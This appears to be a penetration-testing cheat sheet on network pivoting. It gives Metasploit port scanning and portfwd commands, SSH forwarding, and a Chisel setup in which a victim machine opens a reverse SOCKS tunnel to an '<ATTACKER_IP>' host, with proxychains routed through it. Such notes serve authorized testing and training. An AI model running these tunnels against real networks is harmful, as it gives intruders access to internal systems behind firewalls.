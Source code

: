 ### USING NMAP WITH METASPLOIT
Since Nmap does not integrate directly with Metasploit, use the following module:
``` bash
use auxiliary/scanner/portscan/tcp
```
Set the target IP and execute the scan with `run`.

### PORT FORWARDING WITH METASPLOIT
To forward a specific port (e.g., port 80):
``` bash
portfwd add -l <your_port> -p 80 -r <victim_ip>
```
Then attack the forwarded port locally.

### ACCESSING LOCALHOST SERVICES
Use SSH to expose internal services:
```bash
ssh -g -L 0.0.0.0:8081:localhost:8080 user@localhost
```
Then forward the port (e.g., 8081) using `portfwd`.

### CONNECTING TO SSH THROUGH ROUTING
Background the session with `Ctrl+Z`, search for the `ssh_login` module, and configure it for the desired target.

## CHISEL FOR PIVOTING (Strict SOCKS Mode)
---
Chisel is a fast TCP/UDP tunnel, transported over HTTP/2, that allows you to create a secure and reliable tunnel through firewalls or NATs. It is commonly used for pivoting, allowing attackers to bypass network restrictions and gain access to internal systems. Chisel is lightweight and supports multiple connections, making it a useful tool for penetration testers and red teamers when tunneling traffic between machines. Download it <a href="https://github.com/jpillora/chisel" target="_blank">here</a>

### Attacker Machine:
Start the Chisel reverse server:
```bash 
chisel server --reverse -p 8000
```

### Victim Machine:
Run the following command:
```bash 
chisel client <ATTACKER_IP>:8000 R:socks
```

### Proxy Configuration:
Edit `/etc/proxychains4.conf`, uncomment the `strict_chain` section, and add:
```bash 
socks5 127.0.0.1 1080
```
